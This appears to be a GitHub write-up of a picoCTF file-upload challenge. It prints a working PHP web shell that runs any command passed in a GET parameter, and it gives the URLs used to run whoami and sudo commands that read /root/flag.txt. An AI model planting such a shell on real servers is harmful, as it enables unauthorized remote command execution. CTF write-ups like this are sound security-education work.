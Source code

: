 # 🌐 The n0s4n1ty Challenge 🚩

<img src="https://komarev.com/ghpvc/?username=CTF-isaka&label=Bookmarklet&color=0e75b6&style=flat" align="center" alt="since 19 March, 2025" />

## **Challenge Overview**

In this challenge, the goal is to exploit a file upload vulnerability on a remote server to gain unauthorized access and retrieve a flag. The task involves using PHP file upload and command injection to escalate privileges and eventually capture the flag.

### **Challenge Screenshot:**

![image](https://github.com/user-attachments/assets/c5f7ca98-eabe-4427-98da-3a92351776f9)

---

## **Additional Information**

### **Hints:**

1. The file upload feature is not sanitized properly.
2. Upon gaining a shell on the remote machine, always check `sudo -l` for potential privilege escalation.

### **Links:**
- **Challenge URL:** [http://standard-pizzas.picoctf.net:56256](http://standard-pizzas.picoctf.net:56256)

---

## **Steps to Solve:**

### Step 1: Access the File Upload Page
Upon visiting the challenge URL, the page presents a photo upload feature. This is the point of entry for the exploit.

![image](https://github.com/user-attachments/assets/4635f4b2-5d1c-4335-a45b-05880c2edac6)

### Step 2: Upload an Image
I upload a random image from my local PC to explore the vulnerability.

![image](https://github.com/user-attachments/assets/4be73aa5-5a03-4c27-af55-08fba8bd9d85)

### Step 3: Analyze the Uploaded File
After uploading, I notice that the file is saved with the `.php` extension. This indicates that the server may allow the execution of PHP scripts. The file is saved in the directory `uploads/tachi.jpg`.

![image](https://github.com/user-attachments/assets/db719059-74c5-425e-8c1b-07fb3750f706)

### Step 4: Create a Malicious PHP File
I create a PHP file named `picture.php` designed to execute commands via a `GET` request. The code is as follows:

```php
<?php
// Get the command directly from the 'command' GET parameter
$command = $_GET['command'];

// Run the command without any checks or sanitization
$output = shell_exec($command);

// Output the result
echo $output;
```

### Step 5: Upload the Malicious PHP File
I upload the `picture.php` file to the server and access it via the URL:

```
http://standard-pizzas.picoctf.net:56256/uploads/picture.php?command=whoami
```

This allows me to execute the `whoami` command remotely and get the response.

![image](https://github.com/user-attachments/assets/13ccdc45-415d-475c-af37-8de256889555)

### Step 6: Explore the File System
With access to remote command execution, I run the following command to list the contents of the `/root` directory:

```
http://standard-pizzas.picoctf.net:54187/uploads/picture.php?command=sudo%20ls%20%2Froot
```

This reveals the presence of the `flag.txt` file in the `/root` directory.

### Step 7: Retrieve the Flag
I access the flag by running the following command:

```
http://standard-pizzas.picoctf.net:54187/uploads/picture.php?command=sudo%20cat%20%2Froot%2Fflag.txt
```

This command displays the contents of the `flag.txt` file, completing the challenge.

### Step 8: Victory!
With the flag retrieved, the challenge is complete. Congratulations!

---

### **Conclusion:**
The n0s4n1ty challenge demonstrates the exploitation of a poorly sanitized file upload functionality and the potential risks of command injection vulnerabilities. By leveraging the lack of validation, I was able to gain remote shell access, escalate privileges, and capture the flag. Always remember to sanitize inputs and validate file types when allowing file uploads to prevent such attacks.
